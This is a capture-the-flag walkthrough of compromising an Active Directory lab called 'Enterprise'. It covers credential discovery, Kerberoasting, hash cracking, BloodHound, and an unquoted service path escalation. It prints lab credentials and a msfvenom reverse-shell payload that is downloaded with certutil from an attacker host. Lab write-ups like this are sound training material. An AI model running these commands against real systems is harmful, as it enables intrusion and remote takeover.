# Enterprise

# Enumeration

## Nmap

**As always, we’ll start with nmap scan. First all port scan and then version detection / default script nmap scan on the open ports.**



**As we see from the RDP output of the nmap scan There is a tree called ENTERPRISE.THM and inside this tree there is a child domain called LAB.ENTERPRISE.THM and the Domain Controller is LAB-DC.LAB.ENTERPRISE.THM.**

**So let’s add them to our /etc/hosts file:**

```php
sudo echo '10.80.151.39 ENTERPRISE.THM LAB.ENTERPRISE.THM LAB-DC.LAB.ENTERPRISE.THM' >> /etc/hosts
```

## Web Enumeration

### Port 80 HTTP

**Let’s Check the Web pages and see what we can do.**



**The page looks empty so lets perform fuzzing on it.**

```php
feroxbuster -u http://10.80.151.39/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x php,asp,aspx,jsp,html,htm,js,txt,bak,old,zip,tar,gz,conf,log,py,db -t 30 -k --output dirs.json
```



**There is Nothing in port 80 so let’s move on port 7990**

### Port 7990 HTTP



**Let’s visit this page and see what is interesting.**


**They said that they are moving to GitHub so let’s use a little Google Dorking to search about the domain on GitHub.**





**This is what we are looking for because Sq00ky is the creator of the room.**

**after enumerating further i found the account of their developer.**



**Let’s visit his account.**

**We found a username and password.**



**User: nik**

**Password: ToastyBoi!**

**Let’s Try to see if they are valid or not.**

```php
nxc smb 10.80.151.39 -u nik -p 'ToastyBoi!'
```



## Active Directory Enumeration

**Now Since i have a valid credentials let’s enumerate the other users in the domain and see if there is any AS-REP-Roastable or Kerberoastable  Service also use bloodhound to visualize our attack surface.**

### LDAP Enum Usernames

**In this phase i will query the domain usernames and and get their description because it reveals secrets sometimes.**

```php
ldapsearch -x -H ldap://10.80.151.39 -D "nik@LAB.ENTERPRISE.THM" -w 'ToastyBoi!' -b "DC=LAB,DC=ENTERPRISE,DC=THM" "(objectClass=user)" sAMAccountName description
```



**Now i got 2 interesting things i got the all usernames in this domain and i got a username and password for a user called Contractor from his description.**

**User: contractor-temp**

**password: Password123!**



**It a valid creds  so now let’s note it and continue in our enumeration phase and see if there is any AS-REP-Roastable or Kerberoastable from our userlist**

**First let’s build our usernames list from the LDAP output**

```php
grep '^sAMAccountName:' users.txt | cut -d' ' -f2 > valid_users.txt
```



### **AS-REP-Roasting**

```php
impacket-GetNPUsers LAB.ENTERPRISE.THM/ -dc-ip 10.80.151.39 -usersfile valid_users.txt -format john -outputfile crackme.txt -no-pass -request
```



**Nothing Here so let’s try the kerberoasting attack**

### **Kerberoasting**

```php
impacket-GetUserSPNs LAB.ENTERPRISE.THM/'nik':'ToastyBoi!' -target-domain LAB.ENTERPRISE.THM -dc-ip 10.80.151.39 -request -outputfile crackme.txt
```



**Good!!! Now since we have this hash let’s try to crack it with Rockyou wordlist.**

```php
hashcat -m 13100 crackme.txt /usr/share/wordlists/rockyou.txt
```



**Nice we got another valid username and password!!!!**

**User: bitbucket**

**Password: littleredbucket**



**Now we have 3 Valid Credentials so let’s run Bloodhound and Draw our attack.**

### BloodHound

**1- Collecting Data via RustHound**

```php
rusthound -d LAB.ENTERPRISE.THM -u 'nik' -p 'ToastyBoi!' -i 10.80.151.39 --zip -o LAB.ENTERPRISE.THM.zip
```



**2- Analyzing and Graphing via BloodHound**

**I Didn’t find anything interesting that 3 users i found the can do but i only found that bitbucket can RDP to the DC so i think there is a Privilege Escalation Vector inside the machine**



# Food Hold / Privilege Escalation

## Connecting / Local Enumeration

**1- Let’s Connect Via RDP** 

```php
xfreerdp /u:bitbucket /p:'littleredbucket' /v:10.80.151.39 /dynamic-resolution /cert-ignore
```



### User Flag



### Transferring WinPeas

 **1- Host WinPeas in the HTTP Server you own**



**2- Request It from the Windows Victim**


### Running WinPeas



**Nice We Found our PE Vector `Unquoted Service Path`** 

**Let’s First Check If we Can Modify it.**

```php
get-acl 'C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe' | ForEach-Object Access | where identityreference -eq 'BUILTIN\Users'
```



**Nice Let’s Abuse it.**

### Privilege Escalation

**1- Let’s Create our reverse shell payload** 

```php
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.142.147 LPORT=1234 -f exe -o reverse.exe
```



**2- Let’s Transfer it to the Windows** 

```php
certutil -urlcache -f http://192.168.142.147/reverse.exe reverse.exe
```



**3- Start The Metasploit listener** 



**4- Change the shell name to Zero.exe and copy it to the path C:\Program Files (x86)\Zero Tier**



**5- Stop and Start The Service**



**6- Receive the connection on Metasploit**  



### Root Flag


